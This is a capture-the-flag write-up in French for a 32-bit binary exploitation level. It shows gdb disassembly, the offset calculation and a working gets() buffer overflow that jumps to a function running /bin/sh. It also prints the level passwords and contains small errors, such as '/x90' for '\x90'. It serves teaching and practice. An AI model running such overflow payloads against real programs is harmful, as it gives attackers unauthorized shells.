 On se connecte sur le level1, ou se trouve un **binaire** <code>level1</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level0/level0...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant le code on se rend compte 

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve 2 fonctions qui ne sont pas utlisées, **frame_dummy** et **run** :

```gdb
(gdb) disas frame_dummy
Dump of assembler code for function frame_dummy:
   0x08048420 <+0>:     push   %ebp
   0x08048421 <+1>:     mov    %esp,%ebp
   0x08048423 <+3>:     sub    $0x18,%esp
   0x08048426 <+6>:     mov    0x80496bc,%eax
   0x0804842b <+11>:    test   %eax,%eax
   0x0804842d <+13>:    je     0x8048441 <frame_dummy+33>
   0x0804842f <+15>:    mov    $0x0,%eax
   0x08048434 <+20>:    test   %eax,%eax
   0x08048436 <+22>:    je     0x8048441 <frame_dummy+33>
   0x08048438 <+24>:    movl   $0x80496bc,(%esp)
   0x0804843f <+31>:    call   *%eax
   0x08048441 <+33>:    leave
   0x08048442 <+34>:    ret
   0x08048443 <+35>:    nop
End of assembler dump.
```
> On voit que cette fonction ne sert pas a grand chose.
```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > b *0x08048490 # Breakpoint juste avant l'appelle de gets
Breakpoint 1 at 0x8048490
(gdb) > run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) > x/30x $esp
0xbffff6e0:     0xbffff6f0      0x0000002f      0xbffff73c      0xb7fd0ff4
0xbffff6f0:     0x080484a0      0x0804978c      0x00000001      0x08048321
0xbffff700:     0xb7fd13e4      0x00080000      0x0804978c      0x080484c1
0xbffff710:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff720:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4
0xbffff730:     0x080484a0      0x00000000      0x00000000      0xb7e454d3
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c
```
> 0xbffff73c => EIP
>
> 0xbffff6f0 => Buffer beginning
>
> 0xbffff73c - 0xbffff6f0 = 0x4c
>
> 0x4c = Offset : 76 characters

<pre><code>python -c "print '/x90' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
</code></pre>
> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utlise la commande **cat** pour laisser ouvert ce dernier :

<pre><code>(python -c "print '/x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
</code></pre>

For download :
<pre><code>scp -P4242 level1@192.168.1.78:level1 .</code></pre>
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

# Explication bonus
Pour savoir quel taille est atriuber le char* utilisé dans **get** on calcule avec :
```gdb
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```
> 0x50 - 0x10 = 0x40 = 64

Donc on a => <code>char* str[64];</code>

